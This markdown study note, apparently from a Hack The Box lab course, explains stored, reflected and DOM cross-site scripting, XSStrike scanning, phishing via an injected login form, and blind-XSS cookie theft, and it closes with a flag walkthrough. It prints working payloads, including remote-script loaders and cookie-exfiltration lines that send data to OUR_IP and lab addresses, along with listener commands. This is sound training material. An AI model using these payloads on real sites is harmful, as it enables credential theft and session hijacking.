# Cross Site Scripting (XSS)

This document summarizes core techniques for identifying and exploiting **Cross-Site Scripting (XSS)** vulnerabilities. It is intended as a practical reference and does not aim to be an exhaustive guide.

---

## Table of Contents

- [Cross Site Scripting (XSS)](#cross-site-scripting-xss)
  - [Overview](#overview)
  - [Stored XSS](#stored-xss)
  - [Reflected XSS](#reflected-xss)
  - [DOM XSS](#dom-xss)
  - [Automated XSS Discovery](#automated-xss-discovery)
  - [XSS Attacks - Phishing](#xss-attacks---phishing)
  - [XSS Attacks - Session Hijacking](#xss-attacks---session-hijacking)
  - [Exploitation Example - Walkthrough](#exploitation-example---walkthrough)

---

## Overview

Cross-Site Scripting (XSS) is one of the most prevalent web application vulnerabilities and has remained a persistent security issue for over two decades. A significant percentage of modern web applications are still affected by XSS in one form or another.

XSS vulnerabilities arise from **improper handling and sanitization of user-controlled input**, allowing attackers to inject malicious JavaScript code that is executed in the context of a victim’s browser. In a typical web application, HTML content is generated on a back-end server and rendered by the client’s browser. If user input is incorporated into this content without adequate validation or encoding, an attacker can inject JavaScript through **input fields or HTTP parameters**. When a victim loads the affected page, the injected script is executed unknowingly within their browser.

XSS payloads are executed **entirely client-side** and do not directly compromise the back-end server. In the case of stored (persistent) XSS, malicious payloads are saved on the server, but execution still occurs only when the content is retrieved and rendered by a client. Because XSS does not typically result in immediate server-side compromise, it is often underestimated or deprioritized by developers. XSS attacks are **constrained to the browser’s JavaScript execution environment** and cannot directly execute system-level commands on the server.

Despite this, XSS can have serious security implications, including:

- Session hijacking
- Credential theft
- Account takeover
- Unauthorized actions performed on behalf of users

There are three primary types of XSS vulnerabilities:

- Stored (Persistent) XSS
- Reflected (Non-Persistent) XSS
- DOM-based XSS

---

## Stored XSS

Stored XSS, also referred to as **persistent XSS**, is generally considered the most **severe** form of cross-site scripting vulnerability. In this scenario, malicious payloads are stored on the back-end server and executed whenever the affected content is retrieved and rendered in a user’s browser. Because the payload is persisted server-side, it survives page refreshes and impacts **every user** who accesses the vulnerable page.

Payloads are typically injected through input fields (e.g., forms, comment sections) or directly via HTTP parameters using a web proxy such as **Burp Suite**. If the injected payload remains present after a page refresh and executes consistently, the vulnerability can be classified as stored XSS.

A common initial discovery payload leverages the JavaScript `alert()` function to confirm code execution. The following example displays the **origin** of the page where the payload executes:

```javascript
// Payload
<script>alert(window.origin)</script>

// Example
task=<script>alert(window.origin)</script>
```



The same technique can be used to display the user’s **session cookies**, which demonstrates the potential for session hijacking:

```javascript
// Payload
<script>alert(document.cookie)</script>

// Example
task=<script>alert(document.cookie)</script>
```



Modern browsers or application-level defenses may block the `alert()` function. In such cases, alternative payloads that do not rely on `alert()` are useful for confirming exploitability.

One such technique uses the HTML `<plaintext>` tag, which causes the browser to render all subsequent content as raw text:

```html
// Payload
<plaintext>

// Example
task=<plaintext>
```


Another common discovery payload invokes the browser’s print dialog using the `print()` function:

```javascript
// Payload
<script>print()</script>

// Example
task=<script>print()</script>
```


**Note for Defenders:**

Although XSS vulnerabilities execute exclusively **client-side** and do not directly lead to server-side command execution, they remain highly impactful. Stored XSS can enable session theft, credential harvesting, phishing attacks, and full account compromise. As such, it should be treated as a critical security issue despite its client-side execution model.

---

## Reflected XSS

Reflected XSS vulnerabilities are **non-persistent**. While the malicious input is processed by the back-end server, it is **not stored**, and therefore does not persist across page refreshes. As a result, reflected XSS typically impacts only the targeted victim rather than all users of the application.

Reflected XSS often appears in **error messages**, **validation responses**, or **confirmation banners** that include user-supplied input in the response. These messages usually disappear once the page is refreshed, making them good candidates for testing reflected XSS.

When attempting to add a task named `test` in the target application, the server responds with an error message that includes our input:

```
Task 'test' could not be added.
```


This behavior indicates that the application is **reflecting user input** back into the response without proper output encoding. 

To test for reflected XSS, we can reuse the same discovery payloads used for stored XSS:

```javascript
// Payload
<script>alert(window.origin)</script>

// Example
task=<script>alert(window.origin)</script>
```


The payload executes successfully, confirming that injected JavaScript is being interpreted by the browser. Inspecting the page source reveals that the payload is embedded directly in the HTML returned by the server.



After refreshing or revisiting the page, the payload is no longer present in the server response. This confirms that the vulnerability is **reflected**, not stored.


Because reflected XSS payloads are not stored on the server, they must be delivered to the victim at the time of execution. This is typically achieved by embedding the payload in a **crafted URL** and convincing the victim to visit it (for example, via phishing or social engineering).

If the input is accepted through a GET parameter, a malicious URL may look like this:

```
http://94.237.60.55:51429/index.php?task=<script>alert(window.origin)</script>
```

When the victim visits the link, the payload is reflected by the server and executed in the victim’s browser.

---

## DOM XSS

DOM-based XSS (Document Object Model XSS) is a **non-persistent** client-side vulnerability. Unlike **reflected XSS**, DOM XSS does not involve the back-end server at all. The vulnerability exists entirely within client-side JavaScript that processes user-controlled input and dynamically modifies the page.

The DOM is a programming interface that represents a web page as a tree of objects (nodes). JavaScript can read from and write to these nodes to dynamically update content. DOM XSS vulnerabilities occur when JavaScript reads user-controlled input and writes it back to the page without proper sanitization.

When attempting to add a task named `test`, we observe that the application updates the URL using a fragment identifier (`#`):

```
http://94.237.57.115:55333/#task=test
```


The `#` character indicates a **client-side parameter** (URL fragment). Fragment identifiers are processed entirely by the browser and are **never sent to the server** as part of an HTTP request. This behavior strongly suggests a DOM-based vulnerability.

Two key concepts are central to understanding DOM XSS:

- Source: A JavaScript object that reads user-controlled input (e.g., `document.URL`, `location.hash`)
- Sink: A JavaScript function or property that writes data to the DOM

If user input flows from a source to a sink without sanitization, a DOM XSS vulnerability may exist.

Common sink functions and properties include:

- document.write()
- element.innerHTML
- element.outerHTML
- add()
- after()
- append()

Reviewing the page source reveals that user input is extracted from the `task` parameter (source) and written to the page using `innerHTML` (sink):

```javascript
var pos = document.URL.indexOf("task=");
var task = document.URL.substring(pos + 5, document.URL.length);
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);
```


Because the application uses `innerHTML` without sanitization, user-controlled input is injected directly into the DOM, creating a DOM XSS vulnerability.

The `innerHTML` sink does not allow execution of `<script>` tags. As a result, traditional `<script>`-based payloads will not work in this context.

However, JavaScript execution can still be achieved by injecting HTML elements with event handlers. For example, the `onerror` attribute of an `` element executes JavaScript when the image fails to load. By specifying an invalid image source, the error condition is guaranteed.

```javascript
// Payloads


```

```javascript
// Examples
task=

task=
```


Because DOM XSS vulnerabilities are **non-persistent**, payloads must be delivered **at the time of execution**. This is typically accomplished by crafting a malicious URL and persuading a victim to visit it (e.g., via phishing or social engineering).

An example crafted URL may look like this:

```
http://94.237.57.115:55333/#task=
```

When the victim opens the link, the browser processes the fragment identifier, the vulnerable JavaScript executes, and the payload runs in the victim’s browser.

---

## Automated XSS Discovery

Manual testing is essential for understanding XSS vulnerabilities, but it can be time-consuming when assessing large applications with many parameters. Automated tools help speed up the discovery process and identify potential injection points that warrant further manual verification.

`XSStrike` is a well-known, actively maintained tool designed specifically for advanced XSS detection. Unlike basic scanners, it uses context-aware analysis and payload generation to reduce false positives and improve detection accuracy.

Download and install `XSStrike`:

```bash
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
```

To test a single parameter for XSS, provide a target URL using the `-u` flag:

```bash
python xsstrike.py -u "http://94.237.50.221:32974/index.php?task=test"
```

`XSStrike` will analyze how the input is reflected in the response, identify injection contexts, and attempt to generate payloads tailored to the application’s filtering behavior.

If a URL contains multiple parameters, `XSStrike` will automatically enumerate and test each one:

```bash
python xsstrike.py -u "http://94.237.50.221:32974/?fullname=Test&username=Tester&password=123&email=test%40tester.com"
```



In this case, XSStrike identified a reflected XSS vulnerability in the email parameter. The tool then generated multiple payloads suitable for the detected injection context.



---

## XSS Attacks - Phishing

Phishing attacks rely on presenting **deceptive but legitimate-looking content** to trick victims into disclosing sensitive information, such as usernames and passwords. When combined with XSS vulnerabilities, phishing becomes particularly effective, as the malicious content is executed within the trusted context of the vulnerable application.

A common XSS-based phishing technique involves injecting a **fake login form** into a vulnerable page and exfiltrating submitted credentials to an attacker-controlled server.

Assume we are assessing a web application that functions as a simple image viewer—functionality commonly found in online forums and content platforms:

```
http://10.129.133.125/phishing/
```


As a first step, we test the application for XSS vulnerabilities using `XSStrike`:

```
python xsstrike.py -u "http://10.129.133.125/phishing/index.php?url=test"
```



`XSStrike` dentifies several working payloads. We begin by testing the following reflected payload:

```bash
http://10.129.133.125/phishing/index.php?url='><D3V%0doNpoINtEreNTEr%0d=%0dconfirm()>v3dm0s
```


The payload is reflected and executed, confirming the presence of a **reflected XSS vulnerability**.

Next, we modify the payload to execute arbitrary JavaScript. As a proof of execution, we trigger a simple alert using an `onerror` handler:

```bash
http://10.129.133.125/phishing/index.php?url='><D3V%0doNpoINtEreNTEr%0d=%0dconfirm()>
```


Successful execution confirms that we can inject and run JavaScript in the victim’s browser.

With code execution established, the next step is to inject a **fake login form** designed to collect credentials and send them to an attacker-controlled server.

A basic HTML login form might look like this:

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

To ensure the payload fits within a single URL parameter, the HTML is **minimized** and written dynamically using `document.write()` in combination with the previously validated injection point.

Conceptually, the payload becomes:

```javascript
document.write('<minimized login form HTML>')
```

Injected via the confirmed vector:

```javascript
0doNpoINtEreNTEr%0d=%0dconfirm()>document.write('minimized code goes here')
```


Before sending the crafted URL to the victim, we start a listener to receive the submitted credentials. This can be done using several common tools:

```bash
sudo nc -lvnp 8001
```

or:

```bash
sudo python -m http.server 8001
```

or:

```bash
sudo php -S 0.0.0.0:8001
```


When the victim submits the fake login form, their credentials are sent directly to the attacker-controlled server, completing the phishing attack.

---

## XSS Attacks - Session Hijacking

Web applications rely on cookies to maintain authenticated user sessions. If an attacker is able to steal a victim’s session cookie, they may gain authenticated access **without ever knowing the victim’s credentials**. When an XSS vulnerability is present, attackers can inject JavaScript that reads `document.cookie` and exfiltrates it to an attacker-controlled server, enabling session hijacking.

Blind XSS occurs when a payload is executed in a part of the application not directly visible to the attacker, such as:

- User registration forms
- Comment moderation panels
- Admin dashboards

In these cases, the attacker does not immediately see the result of the payload execution. Instead, the application may respond with a generic message such as:

```
Thank you for registering. An Admin will review your request.
```



Because no visible output is returned, the attacker must rely on **out-of-band interaction** to confirm whether the payload executed successfully.

To identify **blind XSS vulnerabilities**, the injected payload must trigger an outbound request to an attacker-controlled server. If such a request is received, it confirms that the payload executed in the victim’s browser.

Registration and comment forms typically contain multiple input fields. To determine which specific field is vulnerable, the attacker can vary the requested resource path (for example, `/username`, `/profile`, etc.). When a request is received, the path reveals which field triggered the payload. At this stage, the remote script itself can be empty. 

Common payloads used to load a remote script include:

```javascript
<script src=http://OUR_IP></script>
```


```javascript
'><script src=http://OUR_IP></script>
```


```javascript
"><script src=http://OUR_IP></script>
```

```javascript
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
```

```javascript
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
```

```javascript
<script>$.getScript("http://OUR_IP")</script>
```

**Exploitation Walkthrough:**

**Step 1: Start a Listening Server**

Prepare a directory to host scripts and start a web server:

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:8001
```

**Step 2: Identify the Vulnerable Field**

Inject payloads into different form fields, adjusting the requested path to identify which field executes the payload:

```javascript
"><script src=http://10.10.14.172:8001/fullname></script>

"><script src=http://10.10.14.172:8001/username></script>

"><script src=http://10.10.14.172:8001/profile></script>
```



A request is received for the `/profile` path, indicating that the `profile` field is vulnerable to XSS.



**Step 3: Create the Cookie-Stealing Script**

Create a JavaScript file (for example, `script.js`) that exfiltrates the victim’s cookies:

```javascript
document.location='http://OUR_IP:PORT/?c='+document.cookie;
```

or:

```javascript
new Image().src='http://OUR_IP:PORT/?c='+document.cookie;
```

**Step 4: Deliver the Final Payload**

Inject a payload into the `profile` field that loads the malicious JavaScript file from the attacker-controlled server:

```javascript
"><script src=http://10.10.14.172:8001/script.js></script>
```

Once executed, the victim’s browser sends the session cookie to the attacker’s server.

**Step 5: Hijack the Session**

Navigate to the target application’s login page:

```
http://10.129.222.16/hijacking/login.php
```

Open the browser’s developer tools and locate the `cookie storage`. Insert the stolen cookie name and value manually.


After refreshing the page, the attacker gains authenticated access as the victim:


---

## Exploitation Example - Walkthrough

In this exercise, we are tasked with demonstrating practical XSS exploitation skills by attacking a vulnerable web application and retrieving a flag. 

To successfully complete the assessment, we must achieve the following objectives:

- Identify a user-controlled input vulnerable to XSS
- Craft and deliver a working XSS payload
- Hijack a victim’s session cookie containing the flag

The target application is available at:

```
http://10.129.221.80/assessment/
```

The application appears to be a security-focused blog.


A comment section is present on the blog, containing multiple user-input fields. Comment sections are common attack surfaces and prime candidates for XSS testing.


After submitting a test comment, the application responds with a message indicating that comments require **administrative approval**.


This behavior strongly suggests the presence of a **blind XSS vulnerability**, as the injected payload is likely rendered in an administrative interface that we do not have direct access to. As a result, we must rely on **out-of-band interaction** to confirm payload execution and exfiltrate data.

**Step 1: Start a Listening Server**

We begin by preparing a directory to host our payloads and starting a local web server to receive callbacks from the victim’s browser:

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:8001
```

**Step 2: Identify the Vulnerable Field**

To determine which input field is vulnerable, we inject test payloads into multiple fields. Each payload references a unique URL path corresponding to the field name. When the payload executes, the browser will request that path from our server, allowing us to identify the vulnerable field.

The `email` field is typically skipped, as it often enforces strict format validation.

```javascript
"><script src=http://10.10.14.172:8001/comment></script>

"><script src=http://10.10.14.172:8001/name></script>

"><script src=http://10.10.14.172:8001/website></script>
```

A request is received for the `/website` path, confirming that the `website` field is vulnerable to blind XSS.


**Step 3: Create the Cookie-Stealing Script**

Next, we create a JavaScript file (`script.js`) that exfiltrates the victim’s session cookie to our listening server:

```javascript
new Image().src='http://10.10.14.172:8001/?c='+document.cookie;
```

This technique avoids restrictions on cross-origin requests and reliably transmits the cookie via a simple GET request.

**Step 4: Deliver the Final Payload**

We inject a final payload into the vulnerable `website field`, instructing the victim’s browser to load and execute our malicious JavaScript file:

```javascript
"><script src=http://10.10.14.172:8001/script.js></script>
```



When an administrator reviews the comment, the payload executes, and the session cookie is sent to our server.

The exfiltrated session cookie contains the final flag, completing the assessment successfully:

```
HTB{cr055_5173_5cr1p71n6_n1nj4}
```




